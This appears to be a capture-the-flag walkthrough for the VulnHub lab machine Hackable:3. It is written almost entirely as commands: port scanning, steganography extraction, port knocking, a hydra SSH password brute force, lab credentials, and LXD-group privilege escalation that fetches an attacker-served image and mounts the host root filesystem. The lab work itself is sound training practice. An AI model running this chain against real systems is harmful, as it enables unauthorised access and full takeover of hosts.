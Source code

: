 
# Hackable:3 Walkthrough 

**VulnHub Link:** [Hackable:3](https://www.vulnhub.com/entry/hackable-iii,720/)
**Difficulty:** Medium
**Release Date:** 2 Jun 2021


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.139

## 2. Web Enumeration

dirb http://hackable3.com

wordlist.txt found from /backup
1.txt found from /config
2.txt found from /css
3.jpg found /

wget http://192.168.100.140/3.jpg ; steghide extract -sf 3.jpg (no passphrase) --> 65535

knock 192.168.100.140 10000 4444 65535 --> SSH will be open after this command 


## 3.Brute Force

hydra -l jubiscleudo -P wordlist.txt ssh://192.168.100.140 -I


## 4.Privilege Escalation


jubiscleudo:onlymy found

ssh jubiscleudo@192.168.100.140 
cat .user.txt ---> User flag Captured

cd /var/www/html --> cat .backup.config.php ---> hackable_3 user's password found

hackable3:TrOLLED_3

we found out that lxd from id command

in our attacker machine ---> 
git clone https://github.com/saghul/lxd-alpine-builder.git
python3 -m http.server 80

in victim machine --->
wget 192.168.100.140/alpine-v3.13-x86_64-20210218_0139.tar.gz

lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxd init (Press Enter everything)

lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh

cd /mnt/root/root
cat root.txt

BINGO!!!! Root flag captured.!
